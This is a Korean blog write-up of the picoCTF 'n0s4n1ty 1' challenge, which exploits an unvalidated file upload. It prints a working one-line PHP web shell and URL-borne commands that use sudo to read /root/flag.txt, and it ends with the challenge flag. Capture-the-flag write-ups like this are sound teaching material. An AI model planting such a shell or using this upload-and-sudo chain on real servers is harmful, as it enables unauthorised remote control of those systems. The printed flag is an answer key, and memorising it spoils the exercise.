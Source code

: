 ```yaml
---
title: "(Easy) n0s4n1ty 1"
date: 2025-08-11 00:00:00 +0900
categories: [picoCTF, Web Exploitation]
tags: [picoctf, n0s4n1ty 1, web hacking, write-up]
---
```


# picoCTF / Web Exploitation

---

#### Difficulty Level : Easy
#### Title : n0s4n1ty 1

---

![n0s4nlty 1 figure1](/assets/img/picoCTF/2025-08-05-13-46-12.png)

> [Description]  
> 한 개발자가 웹사이트에 프로필 사진 업로드 기능을 추가했지만, 이 구현에는 결함이 있습니다. 이로 인해 당신에게 기회가 생겼습니다.
> 당신의 임무는 (수락한다면) 제공된 웹 페이지에 접속해 파일 업로드 영역을 찾아내는 것입니다. 궁극적인 목표는 /root 디렉터리에 숨겨진 플래그를 찾는 것입니다.

일단 Description 만 읽었을 때는 "파일 업로드"라는 단어가 자꾸 걸린다...

(파일 업로드 취약점이 먹힐 것 같은 느낌...)

우선 우측 상단에 `Launch Instance`를 클릭해서 문제 접속을 위한 인스턴스를 생성하고,  
생성한 링크에 접속해보자.

![n0s4nlty 1 figure2](/assets/img/picoCTF/2025-08-05-13-53-43.png)

링크에 접속하면 사진과 같은 화면을 볼 수 있는데,

파일 선택을 통해 업로드할 파일을 지정하고, Upload Profile 버튼을 누르면 해당 파일이 서버에 업로드 되는 것 같다.

<br>
일단 아무 파일이나 올려봤다.

![n0s4nlty 1 figure3](/assets/img/picoCTF/2025-08-05-14-00-00.png)

\!?!?!?!?  

Profile 업로드라길래 사진만 올릴 수 있는줄 알았는데, 그냥 아무 파일이나 다 올라가는 모양이다. (검증 x)

파일 업로드 취약점이 존재한다는 것을 알았으니, **웹쉘** 을 업로드해서 플래그가 있다고 하는 /root 폴더에 접근해보자.

### Web Shell?
웹 쉘은 웹 서버에 업로드된 악성 스크립트 파일로, 공격자가 해당 서버를 원경에서 제어할 수 있게 해주는 도구를 말한다.

웹 쉘은 주로 php 코드로 작성되는데,  
그 이유는 php가 서버에서 바로 실행되는 언어이기 때문이다.

또한 많은 웹 서버가 php를 기본적으로 지원하고 있으며, 간단한 문법으로도 강력한 기능 구현이 가능하기 때문에 php 코드를 사용한다.

<br>
웹 쉘은 다음과 같이 작성해주었다.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```
(인터넷에 치면 많이 나옴...)

해당 스크립트를 `webshell.php`라는 이름으로 저장하고 이를 업로드해봤다.

![n0s4nlty 1 figure4](/assets/img/picoCTF/2025-08-05-14-11-12.png)

역시나 잘 올라간다.

친절하게 어디에 올라갔는지 경로도 알려준다.

<br>
URL Path 부분에 해당 경로를 입력해서 웹 쉘이 제대로 실행되는지 확인해보자.  
(해당 웹쉘 파일에 접근하는 것만으로도 서버가 스크립트를 바로 실행해버림)

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php`

![n0s4nlty 1 figure5](/assets/img/picoCTF/2025-08-05-14-14-51.png)

스크립트에서 사용한 `shell_exec()` 함수에서 오류가 발생한 것을 보니 스크립트는 잘 실행되는 것 같다.

<br>
이제 /root 폴더 내부를 확인해보자!

업로드한 웹 쉘은 GET 방식으로 cmd에 값을 받아 명령어를 실행하므로, 다음과 같은 방식으로 명령어를 전달 할 수 있다.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=ls%20/root`  
(%20은 띄어쓰기)

![n0s4nlty 1 figure6](/assets/img/picoCTF/2025-08-05-14-20-05.png)

?!?!?!?!

아무것도 안뜬다...

왜냐하면 권한이 없기 때문...

명령 하나를 root 권한으로 실행시키는 방법이 있는데,  
바로 `sudo` 이다.

`sudo`를 앞에 붙여서 다시 확인해보면.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20ls%20/root`

![n0s4nlty 1 figure7](/assets/img/picoCTF/2025-08-05-14-22-18.png)

오오오 보인다!

이제 해당 파일을 또 `sudo`와 함께 읽어주면?

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt`

![n0s4nlty 1 figure8](/assets/img/picoCTF/2025-08-05-14-23-34.png)

이렇게 플래그를 얻어낼 수 있다.

<br>
flag : ~~picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}~~